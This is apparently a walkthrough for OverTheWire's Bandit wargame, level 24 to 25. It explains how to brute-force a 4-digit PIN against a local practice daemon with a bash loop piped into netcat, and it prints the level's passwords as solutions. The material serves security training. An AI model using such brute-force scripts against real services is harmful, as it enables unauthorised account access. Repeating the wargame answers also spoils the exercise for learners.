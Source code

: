 # Level 24 - Level 25: Bandit - OverTheWire

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time.

## Solution
This level is a brute force challenge, and first requires us to `nc localhost 30002`, where there is a listener. From there, we are prompted to enter the password for the previous level as well as the correct four digit pincode on a single line.

We can write a script to do exactly that. In the script, we first create a `for` loop which will iterate through numbers 0000 to 9999. We can do this with the following syntax: `for i in {0001..9999}; do`, where `i` will represent the current iteration, or in this case, four digit pincode.

Within that `for` loop, we can simply `echo` a string containing the password plus the variable `$i`. This will output `password 0000`, `password 0001`, `password 0002` and so on - this is brute forcing.

Finally we can finish the loop with the `done` syntax, and we can then pipe that out to the `nc localhost 30002` command. This will ensure the output of each brute force attempt will be sent to the `nc` connection. From there, it's just a matter of waiting as the script iterates, and eventually we reveal the password.

```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000
Wrong! Please enter the correct pincode. Try again.

bandit24@bandit:~$ vi /tmp/brute.sh

#!/bin/bash

for i in {0001..9999}; do
    echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
done | nc localhost 30002

bandit24@bandit:~$ chmod 700 /tmp/brute.sh
bandit24@bandit:~$ /tmp/brute.sh

Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.

```